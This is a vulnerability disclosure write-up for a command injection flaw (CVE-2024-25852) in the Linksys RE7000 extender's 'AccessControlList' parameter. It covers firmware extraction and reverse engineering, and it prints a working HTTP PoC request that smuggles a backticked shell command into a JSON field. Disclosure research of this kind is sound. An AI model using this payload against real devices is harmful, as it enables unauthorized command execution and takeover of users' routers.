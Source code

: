 Linksys RE7000 command injection vulnerability

Vulnerability introduction

Product Description:

RE7000 is a new dual-band AC1900 wireless extender with seamless roaming function launched by Linksys.

Firmware download:

https://downloads.linksys.com/support/assets/firmware/RE7000v2_PROD_FW_v2.0.15_211230_1012.bin

Vulnerability description:

The RE7000 wireless extender has a command execution vulnerability in the "AccessControlList" parameter of the access control function point. An attacker can use the vulnerability to obtain device administrator rights.

Affected versions:

RE7000 v2.0.9, RE7000 v2.0.11, RE7000 v2.0.15

Distribute CVE numbers:

CVE-2024-25852

Vulnerability analysis

Vulnerability trigger point:



Use the binwalk tool to extract the firmware file system:

binwalk -Me --run-as=root RE7000v2_PROD_FW_v2.0.15_211230_1012.bin

Use the grep tool to quickly find vulnerability parameters:

grep -rl AccessControlList | grep .so



Use the IDA reverse tool to open the libcbtjson.so file and press Alt+t to search for the "AccessControlList" keyword:



Enter the ".rodata:0003B60C" read-only data address and see various types of parameter names, which are used to control different functions:



Enter the "set_accessControlList" function, obtain the incoming parameters a1 and a2 through the "set_value_nvram" function, format the a1 and a2 variables for output through the "fprintf" function, and finally substitute a2 into the "cbt_system" function to execute the system command.



Vulnerability recurrence

Emulate or search network asset targets via qemu firmware:



Exploit POC:

PUT /goform/AccessControl HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Thu, 17 Sep 2020 11:24:58 GMT
If-None-Match: "14600429"
Content-Length: 81

{"AccessPolicy":"0","AccessControlList":"`ps>/etc_ro/lighttpd/RE7000_www/1.txt`"}

Reappearance of v2.0.15 version



The BurpSuite tool sends the POC and executes the ps command to output to the 1.txt file:



Access the 1.txt file to see that the attack was successful.



